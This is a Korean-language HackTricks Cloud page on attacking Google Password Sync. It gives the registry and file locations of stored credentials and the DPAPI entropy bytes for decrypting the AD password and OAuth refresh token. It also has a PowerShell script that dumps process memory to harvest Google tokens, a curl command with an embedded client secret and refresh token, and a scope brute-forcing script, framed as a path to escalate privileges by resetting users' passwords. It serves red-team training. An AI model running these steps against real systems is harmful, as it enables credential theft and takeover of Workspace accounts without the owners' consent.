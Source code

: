 # GPS - Google Password Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## 기본 정보

이것은 Google이 **AD와 Workspace 간의 사용자 비밀번호를 동기화하기 위해 제공하는 바이너리 및 서비스**입니다. 사용자가 AD에서 비밀번호를 변경할 때마다 Google에 설정됩니다.

`C:\Program Files\Google\Password Sync`에 설치되며, 여기에서 구성할 수 있는 바이너리 `PasswordSync.exe`와 계속 실행될 서비스인 `password_sync_service.exe`를 찾을 수 있습니다.

### GPS - 구성

이 바이너리(및 서비스)를 구성하려면 **Workspace에서 Super Admin 주체에 대한 액세스를 제공해야 합니다**:

* Google을 통해 **OAuth**로 로그인한 후 **레지스트리에 토큰을 저장합니다(암호화됨)**
* GUI가 있는 도메인 컨트롤러에서만 사용 가능
* **Workspace 사용자 관리** 권한이 있는 **GCP의 서비스 계정 자격 증명(json 파일)** 제공
* 이러한 자격 증명은 만료되지 않으므로 악용될 수 있어 매우 나쁜 아이디어입니다.
* SA가 Workspace에 대한 액세스를 갖는 것은 매우 나쁜 아이디어입니다. SA가 GCP에서 손상될 경우 Workspace로 피벗할 수 있습니다.
* Google은 GUI가 없는 도메인 제어를 위해 이를 요구합니다.
* 이러한 자격 증명도 레지스트리에 저장됩니다.

AD와 관련하여 현재 **응용 프로그램 컨텍스트, 익명 또는 특정 자격 증명**을 사용하도록 지정할 수 있습니다. 자격 증명 옵션이 선택되면 **사용자 이름**은 **디스크**의 파일에 저장되고 **비밀번호**는 **암호화되어** **레지스트리**에 저장됩니다.

### GPS - 디스크에서 비밀번호 및 토큰 덤프

{% hint style="success" %}
[**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe)가 **GPS**를 감지하고 구성에 대한 정보를 얻으며 **비밀번호와 토큰을 복호화**할 수 있다는 점에 유의하세요.
{% endhint %}

파일 **`C:\ProgramData\Google\Google Apps Password Sync\config.xml`**에서 구성의 일부인 **`baseDN`**과 사용 중인 자격 증명의 **`username`**을 찾을 수 있습니다.

레지스트리 **`HKLM\Software\Google\Google Apps Password Sync`**에서 **암호화된 새로 고침 토큰**과 AD 사용자(있는 경우)의 **암호화된 비밀번호**를 찾을 수 있습니다. 또한, 토큰 대신 **SA 자격 증명**이 사용되는 경우 해당 자격 증명도 이 레지스트리 주소에 암호화되어 저장됩니다. 이 레지스트리 내의 **값**은 **관리자**만 **액세스**할 수 있습니다.

암호화된 **비밀번호**(있는 경우)는 **`ADPassword`** 키 내에 있으며 **`CryptProtectData`** API를 사용하여 암호화됩니다. 이를 복호화하려면 비밀번호 동기화를 구성한 사용자와 동일해야 하며, **`CryptUnprotectData`**를 사용할 때 이 **엔트로피**를 사용해야 합니다: `byte[] entropyBytes = new byte[] { 0xda, 0xfc, 0xb2, 0x8d, 0xa0, 0xd5, 0xa8, 0x7c, 0x88, 0x8b, 0x29, 0x51, 0x34, 0xcb, 0xae, 0xe9 };`

암호화된 토큰(있는 경우)은 **`AuthToken`** 키 내에 있으며 **`CryptProtectData`** API를 사용하여 암호화됩니다. 이를 복호화하려면 비밀번호 동기화를 구성한 사용자와 동일해야 하며, **`CryptUnprotectData`**를 사용할 때 이 **엔트로피**를 사용해야 합니다: `byte[] entropyBytes = new byte[] { 0x00, 0x14, 0x0b, 0x7e, 0x8b, 0x18, 0x8f, 0x7e, 0xc5, 0xf2, 0x2d, 0x6e, 0xdb, 0x95, 0xb8, 0x5b };`\
또한, **`0123456789abcdefghijklmnopqrstv`** 사전을 사용하여 base32hex로 인코딩됩니다.

엔트로피 값은 도구를 사용하여 발견되었습니다. 이 도구는 **`CryptUnprotectData`** 및 **`CryptProtectData`** 호출을 모니터링하도록 구성되었으며, 그런 다음 `PasswordSync.exe`를 실행하고 모니터링하는 데 사용되었습니다. 이 도구는 구성된 비밀번호와 인증 토큰을 처음에 복호화하고, 두 경우 모두 사용된 엔트로피의 **값**을 **표시합니다**:

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-5782633230648853886-y.jpg" alt=""><figcaption></figcaption></figure>

이 API 호출의 입력 또는 출력에서 **복호화된** 값을 볼 수 있다는 점에 유의하세요(Winpeas가 작동을 멈춘 경우).

비밀번호 동기화가 **SA 자격 증명으로 구성된 경우**, 레지스트리 **`HKLM\Software\Google\Google Apps Password Sync`** 내의 키에 저장됩니다.

### GPS - 메모리에서 토큰 덤프

GCPW와 마찬가지로 `PasswordSync.exe` 및 `password_sync_service.exe` 프로세스의 메모리를 덤프할 수 있으며, 이미 생성된 경우 새로 고침 및 액세스 토큰을 찾을 수 있습니다.\
AD 구성 자격 증명도 찾을 수 있을 것입니다.

<details>

<summary>덤프 <code>PasswordSync.exe</code> 및 <code>password_sync_service.exe</code> 프로세스 및 토큰 검색</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$processNames = @("PasswordSync", "password_sync_service")
$chromeProcesses = Get-Process | Where-Object { $processNames -contains $_.Name } | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}
```
</details>

### GPS - 리프레시 토큰으로 액세스 토큰 생성

리프레시 토큰을 사용하여 다음 명령에 지정된 클라이언트 ID와 클라이언트 비밀을 사용하여 액세스 토큰을 생성할 수 있습니다:
```bash
curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
https://www.googleapis.com/oauth2/v4/token
```
### GPS - Scopes

{% hint style="info" %}
리프레시 토큰이 있더라도, 액세스 토큰을 생성하는 애플리케이션에서 지원하는 **스코프만 요청할 수 있기 때문에** 액세스 토큰에 대한 스코프를 요청하는 것은 불가능합니다.

또한, 리프레시 토큰은 모든 애플리케이션에서 유효하지 않습니다.
{% endhint %}

기본적으로 GPS는 사용자가 모든 가능한 OAuth 스코프에 접근할 수 없으므로, 다음 스크립트를 사용하여 `refresh_token`으로 `access_token`을 생성하는 데 사용할 수 있는 스코프를 찾을 수 있습니다:

<details>

<summary>Bash script to brute-force scopes</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

그리고 이것은 제가 작성 당시 받은 출력입니다:
```
https://www.googleapis.com/auth/admin.directory.user
```
어떤 범위를 지정하지 않으면 얻는 것과 동일합니다.

{% hint style="danger" %}
이 범위에서는 **기존 사용자의 비밀번호를 수정하여 권한을 상승시킬 수 있습니다**.
{% endhint %}

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
